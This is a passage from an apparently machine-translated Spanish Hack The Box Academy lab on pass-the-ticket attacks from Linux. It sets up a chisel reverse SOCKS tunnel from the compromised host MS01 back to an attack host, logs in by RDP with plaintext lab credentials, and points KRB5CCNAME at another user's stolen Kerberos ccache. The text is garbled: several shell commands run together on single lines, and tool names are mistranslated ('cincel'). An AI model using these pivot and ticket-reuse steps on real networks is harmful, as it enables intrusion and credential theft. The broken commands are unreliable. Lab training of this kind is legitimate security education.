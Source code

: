 Debemos descargar y ejecutar[cincel](https://github.com/jpillora/chisel)en nuestro anfitrión de ataque.

### **Descargar cisel a nuestro host de ataque**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gzxnoxos@htb[/htb]$ gzip -d chisel_1.7.7_linux_amd64.gzxnoxos@htb[/htb]$ mv chisel_* chisel && chmod +x ./chiselxnoxos@htb[/htb]$ sudo ./chisel server --reverse 2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080

```

Conectarse`MS01`a través de RDP y ejecutar cincel (ubicado en c: \ herramientas).

### **Conéctese a MS01 con xfreerdp**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

### **Ejecutar cincel desde ms01**

Pase el boleto (PTT) de Linux

```
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)

```

**Nota:**La IP del cliente es su IP de host de ataque.

Finalmente, necesitamos transferir el archivo ccache de Julio desde`LINUX01`y crear la variable de entorno`KRB5CCNAME`con el valor correspondiente a la ruta del archivo ccache.

### **Configuración de la variable de entorno KRB5CCName**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

**Nota:**Si no está familiarizado con las operaciones de transferencia de archivos, consulte el módulo[Transferencias de archivos](https://academy.hackthebox.com/module/details/24).

### **Embalsar**
